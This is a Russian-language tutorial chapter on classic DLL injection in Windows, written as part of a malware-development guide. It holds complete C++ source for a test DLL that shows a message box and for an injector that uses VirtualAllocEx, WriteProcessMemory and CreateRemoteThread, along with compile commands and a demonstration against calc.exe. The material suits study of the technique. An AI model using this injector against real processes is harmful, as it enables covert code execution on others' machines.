








\newpage
\subsection{5. классическая инъекция DLL в процесс. Простое вредоносное ПО на C++.}

الرَّحِيمِ الرَّحْمَٰنِ للَّهِ بِسْمِ 

{width=400px}    

В этом разделе мы обсудим классическую технику инъекции DLL с использованием API отладки.   

О классической инъекции кода я писал в предыдущем разделе.   

Сначала давайте подготовим нашу DLL.       

Существует небольшая разница между написанием кода на C для `exe` и `DLL`. Основное отличие заключается в том, как вызывается код в модуле или программе. В случае с `exe` должна быть функция `main`, которая вызывается загрузчиком ОС после завершения всех этапов инициализации нового процесса. В этот момент программа начинает выполнение после завершения работы загрузчика ОС.    

С другой стороны, если программа работает как динамическая библиотека (`DLL`), процесс несколько иной. Загрузчик уже создал процесс в памяти, и по некоторым причинам этому процессу может понадобиться загрузить вашу DLL (или любую другую DLL). Это может быть связано с тем, что DLL реализует необходимые функции.   

Таким образом, *exe требует наличия функции main, а DLL требует функции DLLMain*.   
В основном, это самое простое различие.    

Для простоты создадим DLL, которая просто выводит всплывающее сообщение:    

```cpp
/*
evil.cpp
simple DLL for DLL inject to process
author: @cocomelonc
https://cocomelonc.github.io/tutorial/
2021/09/20/malware-injection-2.html
*/

#include <windows.h>
#pragma comment (lib, "user32.lib")

BOOL APIENTRY DllMain(HMODULE hModule, 
DWORD  nReason, LPVOID lpReserved) {
  switch (nReason) {
  case DLL_PROCESS_ATTACH:
    MessageBox(
      NULL,
      "Meow from evil.dll!",
      "=^..^=",
      MB_OK
    );
    break;
  case DLL_PROCESS_DETACH:
    break;
  case DLL_THREAD_ATTACH:
    break;
  case DLL_THREAD_DETACH:
    break;
  }
  return TRUE;
}
```

Она состоит только из `DllMain`, которая является основной функцией библиотеки DLL. В ней не объявлены экспортируемые функции, что обычно делают легитимные DLL. Код `DllMain` выполняется сразу после загрузки DLL в память процесса.

Это важно в контексте DLL-инъекции, так как мы ищем самый простой способ выполнить код в контексте другого процесса. Именно поэтому большинство вредоносных DLL, которые внедряются в процессы, содержат основную вредоносную логику в `DllMain`. Существуют способы заставить процесс выполнить экспортируемую функцию, но написание кода в `DllMain` обычно является самым простым решением для выполнения кода.

При выполнении в инъектированном процессе должно появиться наше сообщение: "Meow from evil.dll!", что подтвердит успешность инъекции. Теперь мы можем скомпилировать DLL (на машине атакующего):

```bash
x86_64-w64-mingw32-g++ -shared -o evil.dll evil.cpp -fpermissive
```

{width=400px}    

Затем помещаем DLL в выбранную директорию (на машине жертвы):    
{width=400px}

Теперь нам нужен код, который внедрит эту библиотеку в выбранный процесс.

В нашем случае мы говорим о классической DLL-инъекции. Мы выделяем пустой буфер размером не менее длины пути к нашей DLL на диске, а затем "копируем" путь в этот буфер.


```cpp
/*
* evil_inj.cpp
* classic DLL injection example
* author: @cocomelonc
* https://cocomelonc.github.io/tutorial/
2021/09/20/malware-injection-2.html
*/
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <windows.h>
#include <tlhelp32.h>

char evilDLL[] = "C:\\evil.dll";
unsigned int evilLen = sizeof(evilDLL) + 1;

int main(int argc, char* argv[]) {
  HANDLE ph; // process handle
  HANDLE rt; // remote thread
  LPVOID rb; // remote buffer

  // handle to kernel32 and pass it to GetProcAddress
  HMODULE hKernel32 = GetModuleHandle("Kernel32");
  VOID *lb = GetProcAddress(hKernel32, "LoadLibraryA");

  // parse process ID
  if ( atoi(argv[1]) == 0) {
      printf("PID not found :( exiting...\n");
      return -1;
  }
  printf("PID: %i", atoi(argv[1]));
  ph = OpenProcess(PROCESS_ALL_ACCESS, 
  FALSE, 
  DWORD(atoi(argv[1])));

  // allocate memory buffer for remote process
  rb = VirtualAllocEx(ph, NULL, evilLen, 
  (MEM_RESERVE | MEM_COMMIT), 
  PAGE_EXECUTE_READWRITE);

  // "copy" evil DLL between processes
  WriteProcessMemory(ph, rb, evilDLL, evilLen, NULL);

  // our process start new thread
  rt = CreateRemoteThread(ph, NULL, 0, 
  (LPTHREAD_START_ROUTINE)lb, 
  rb, 0, NULL);
  CloseHandle(ph);
  return 0;
}

```

Как видите, это довольно просто. Это похоже на инъекцию кода, рассмотренную ранее. Единственное отличие в том, что мы добавляем путь к нашей DLL с диска **(1)**, а перед окончательной инъекцией и запуском DLL нам нужен адрес памяти `LoadLibraryA`, так как именно этот вызов API мы будем выполнять в контексте процесса жертвы для загрузки DLL **(2)**:    

{width=400px}

Теперь, когда мы разобрались с кодом инжектора, мы можем его протестировать.
Скомпилируем его:
```bash
x86_64-w64-mingw32-gcc -O2 evil_inj.cpp -o inj.exe
-mconsole -I/usr/share/mingw-w64/include/ -s
-ffunction-sections -fdata-sections -Wno-write-strings
-fno-exceptions -fmerge-all-constants -static-libstdc++ 
-static-libgcc -fpermissive >/dev/null 2>&1
```
{width=400px}

Сначала запустим `calc.exe`, а затем выполним нашу программу:

{width=400px}

Чтобы проверить, действительно ли наша DLL была внедрена в процесс `calc.exe`, можно использовать Process Hacker.

{width=400px}

В другом разделе памяти можно увидеть:

{width=400px}

Похоже, наша простая логика инъекции сработала! Это самый простой способ внедрения DLL в другой процесс, но во многих случаях он оказывается достаточным и очень полезным.

При желании можно также добавить обфускацию вызовов функций, что будет рассмотрено в следующих разделах.

[VirtualAllocEx](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualallocex)   
[WriteProcessMemory](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory)   
[CreateRemoteThread](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createremotethread)   
[OpenProcess](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-openprocess)    
[GetProcAddress](https://docs.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-getprocaddress)     
[LoadLibraryA](https://docs.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-loadlibrarya)    

[исходный код на Github](https://github.com/cocomelonc/2021-09-24-injection-2)

В будущих разделах я попытаюсь разобраться с более продвинутыми методами внедрения кода.